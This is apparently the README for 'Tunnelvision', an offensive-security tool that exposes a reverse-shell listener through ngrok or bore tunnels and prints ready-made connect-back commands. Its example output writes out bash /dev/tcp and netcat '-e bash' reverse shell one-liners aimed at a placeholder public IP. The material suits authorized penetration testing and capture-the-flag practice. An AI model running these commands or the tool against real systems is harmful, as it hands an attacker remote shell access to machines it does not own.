 # Tunnelvision

Automate reverse shell setup using tunnel services (ngrok or bore).

## What it does

- Sets up a local listener on your chosen port
- Creates a TCP tunnel (ngrok or bore) to expose your listener publicly
- Displays ready-to-use example reverse shell commands with your public IP/port
- Automatically upgrades Linux shells for better interactivity
- Supports both Linux/Mac and Windows shells

## Installation

```bash
# Clone the repository
git clone https://github.com/Nissen96/tunnelvision.git
cd tunnelvision

# Install dependencies with uv
uv sync
```

## Setup

### For bore (recommended - no setup required!)
Bore works out of the box with no authentication or setup required. Just install bore:

```bash
# Install bore (choose one method)

# Option 1: Install with cargo
cargo install bore-cli

# Option 2: Download binary from releases
# https://github.com/ekzhang/bore/releases

# Option 3: Install with package manager
# macOS: brew install bore-cli
# Arch Linux: yay -S bore
```

#### Self-hosting bore server
You can optionally run your own bore server for better control:

```bash
# Start your own bore server
bore server

# Use your server with this tool
uv run revshell.py 4444 --to your-server.com
```

### For ngrok
If you want to use ngrok instead of bore:

1. Install ngrok Python package:
   ```bash
   pip install ngrok
   ```

2. Sign up for an [ngrok account](https://dashboard.ngrok.com/signup) if you don't have one.
3. Get your ngrok auth token: [Your Authtoken](https://dashboard.ngrok.com/get-started/your-authtoken)
4. Set your auth token:
   ```bash
   export NGROK_AUTHTOKEN=your_token_here
   ```
   Or create a `.env` file:
   ```
   NGROK_AUTHTOKEN=your_token_here
   ```

## Usage

```bash
# Basic usage (defaults to bore tunnel and bash shell)
uv run revshell.py 4444

# Use ngrok instead
uv run revshell.py 4444 --tunnel ngrok

# Specify shell type
uv run revshell.py 4444 --shell powershell
uv run revshell.py 4444 --tunnel bore --shell sh
uv run revshell.py 4444 --tunnel ngrok --shell bash

# Use custom bore server
uv run revshell.py 4444 --to my-bore-server.com
uv run revshell.py 4444 --tunnel bore --to localhost:7835

# Short options
uv run revshell.py 4444 -t ngrok -s powershell
```

## Options

- **PORT**: Local port to listen on (1-65535) - positional argument
- **--tunnel, -t**: Tunnel type - 'ngrok' or 'bore' (default: bore)
- **--shell, -s**: Shell type for reverse shell examples (default: bash)
- **--to**: Remote server for bore tunnel (default: bore.pub). Only used with bore tunnel.

### Supported Shells

**Linux/Unix:**
- `sh`, `bash`, `zsh`, `fish`, `dash`, `ash`, `ksh`, `csh`, `tcsh`, `mksh`, `pdksh`

**Windows:**
- `powershell`, `pwsh`, `cmd`

**Note:** You can specify any shell name - the tool will generate appropriate reverse shell examples for the specified shell.
However, the shell will not be attempted upgraded if it is unknown.

## Example Output

```
[+] Setting up bore tunnel...
[+] Listening at 1.2.3.4:12345 (bore.pub)...

=============== REVSHELL EXAMPLES ===============

Bash:
────────────────────────────────────────────
bash -i >& /dev/tcp/1.2.3.4/12345 0>&1
────────────────────────────────────────────

Netcat:
────────────────────────────────────────────
nc 1.2.3.4 12345 -e bash
ncat 1.2.3.4 12345 -e bash
────────────────────────────────────────────

[+] Waiting for connection...
    Press Ctrl+C to exit
```

## Features

- **Multiple tunnel options**: Choose between bore or ngrok
- **Automatic shell upgrade**: Linux shells get PTY upgrades, aliases, and proper terminal settings
- **Multiple examples**: Bash, Netcat, Python, Perl, Ruby, and PowerShell reverse shells
- **Clean exit**: Automatically closes tunnels when you exit
- **Cross-platform**: Works on Linux, macOS, and Windows

## Requirements

- Python 3.9+
- bore (required for bore tunnels)
- ngrok Python package (optional, only needed for ngrok tunnels)
- `uv` package manager (recommended) or `pip`

## License

MIT
